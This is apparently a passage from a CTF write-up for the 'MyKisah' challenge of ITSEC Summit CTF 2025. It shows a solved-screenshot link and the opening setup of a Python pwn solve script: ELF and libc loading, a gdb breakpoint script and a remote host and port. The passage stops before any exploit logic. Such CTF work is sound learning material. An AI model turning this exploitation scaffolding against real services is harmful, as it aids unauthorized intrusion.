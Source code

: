 ![alt](../../../img/CTFNational/ITSEC_Summit_CTF_2025/Solved.png)

### Solve Script

```python
#!/usr/bin/env python3
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './MyKisah_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "13.250.98.246", 40003

gdbscript = '''
init-gef
b *exit
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
```